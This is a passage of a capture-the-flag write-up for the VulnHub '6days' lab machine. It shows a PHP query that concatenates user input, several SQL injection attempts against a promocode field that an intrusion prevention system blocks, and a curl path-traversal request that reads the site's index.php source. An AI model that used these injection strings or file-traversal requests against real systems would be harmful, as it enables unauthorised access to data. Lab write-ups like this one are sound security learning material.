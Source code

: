```
?>
```

## SQL Injection
So from the above pages I have now gathered, my interest was in the SQL injection that seemed possible through the promocode field.  Although this is where things got a little tricky and not as straight forward as I expected.

The following is the SQL query that I tried to inject into:
```php
$sql = "SELECT discount, status FROM promocodes WHERE promocode='".$_GET['promocode']."';";
```

It seems like this should be an easy injection into this query so I start out with some basic injections to try to get a confirmation.

Starting with a single tick I get an error response with the message:
</i>"Malicious request blocked! ~Rashomon IPS"</i>

I tried a number of of different things such as ```' or 1=1 or 'a'='``` but nothing worked.  I tried url encoding a tick as well (%27) and the result was it getting double url encoded at the destination (%2527)... weird. Not sure what that is about.

I looked through the source again and realized I had not actually grabbed the default page of the site so did that:
```html
root@sengen-kali:~/vulnhub/6days# curl http://192.168.56.104/image.php?src=../../../../../var/www/index.php
<html>
<head>
<title>Rashomon IPS - Main Page</title>
</head>
<body>
<h2>Rashomon Intrusion Prevention System</h2>
<h3>Become immune to every attack!</h3>
Today we're announcing our brand new product, Rashomon IPS! <br />
It's capable of blocking any <b>sophisticated cyber attack</b> which <u>can harm your precious customers.</u> (you don't want THAT to happen, do you?) <br />
<img src="http://<? echo passthru("/sbin/ifconfig | /bin/grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | /bin/grep -Eo '([0-9]*\.){3}[0-9]*' | /bin/grep -v '127.0.0.1' | /usr/bin/tr -d '\n'"); ?>/image.php?src=https%3A%2f%2f4.bp.blogspot.com%2f-u8Jo4CEKQLk%2fV4OpiaoMJ7I%2fAAAAAAAAAiw%2f8kuCpTOpRWUAdp2p4GpegWdnOwxjwHNYQCLcB%2fs1600%2fphoto.jpg" /> <br />
(This guy is coming after your website!) <br />
<br />
Don't waste your time and money by hiring <font color="#ff00cc">pentesters</font> and doing real security audits. <br />
This is the best way to secure your organization and you can completely rely on it, and only it! <br />
<br />
IT'S SO SECURE WE EVEN USE IT ON OUR WEBSITE. <br />
<br />
So be quick and get a <u>%15 discount</u> on our newest product using the promocode <b>NONEEDFORPENTEST</b>. (discount will be available until yesterday)<br />
<br />
<form name="promo" method="GET" action="checkpromo.php">
Apply your promo code here: <input type="text" name="promocode">
<input type="submit" value="Apply Promo">
</form>
</body>
</html>
<?php

?>
```